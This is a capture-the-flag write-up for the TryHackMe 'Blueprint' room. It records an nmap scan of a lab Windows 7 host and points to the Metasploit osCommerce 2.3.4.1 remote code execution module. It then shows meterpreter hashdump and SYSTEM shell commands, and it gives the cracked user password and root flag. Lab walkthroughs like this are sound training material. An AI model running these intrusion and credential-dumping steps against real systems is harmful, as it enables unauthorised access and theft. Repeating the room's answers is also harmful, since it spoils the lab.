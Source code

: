 ```yaml
---
title: "Blueprint - TryHackMe"
author: Ludovic COULON
date: 2020-05-28
hero: ./images/hero.jpeg
excerpt: "Writeup for the Blueprint on TryHackMe"
---
```


[TryHackMe | Blueprint](https://tryhackme.com/room/blueprint)

<div className="Image__Small">
  <img src="https://webstockreview.net/images/win-clipart-blueprint-1.png" alt="blog_image" />
</div>

Do you have what is takes to hack into this Windows Machine?

`It might take around 3-4 minutes for the machine to boot.`

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.80.61
```

```bash
PORT      STATE SERVICE     REASON  VERSION
135/tcp   open  msrpc       syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn syn-ack Windows 7 Home Basic 7601 Service Pack 1 netbios-ssn

443/tcp   open  ssl/http    syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1

3306/tcp  open  mysql       syn-ack MariaDB (unauthorized)

8080/tcp  open  http        syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc       syn-ack Microsoft Windows RPC
49153/tcp open  msrpc       syn-ack Microsoft Windows RPC
49154/tcp open  msrpc       syn-ack Microsoft Windows RPC
49158/tcp open  msrpc       syn-ack Microsoft Windows RPC
Service Info: Hosts: www.example.com, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m37s, median: 0s
| nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:05:ad:f5:e5:be (unknown)
| Names:
|   BLUEPRINT<00>        Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   BLUEPRINT<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 05 ad f5 e5 be 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41714/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 54382/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 22612/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23038/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-28T19:03:48+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-28T18:03:50
|_  start_date: 2020-05-28T18:03:02
```

<div className="Image__Small">
  <img src="https://imgur.com/rUJpFMM.png" alt="blog_image" />
</div>

[osCommerce 2.3.4.1 - Remote Code Execution by DanielRTeixeira · Pull Request #9821 · rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework/pull/9821/files/b5681cb954bed6a1e64cf6708cbd5a937e596f5b)

<div className="Image__Small">
  <img src="https://imgur.com/nrRw0SU.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/lecapcm.png" alt="blog_image" />
</div>

### #1 "Lab" user NTML hash decrypted

```bash
meterpreter > run hashdump
```

<div className="Image__Small">
  <img src="https://imgur.com/J5xg1PX.png" alt="blog_image" />
</div>

```bash
googleplus
```

### #2 root.txt

```bash
meterpreter > shell
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> whoami
nt authority\system
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> cd C:\User\Administrator\Desktop
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes> type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```
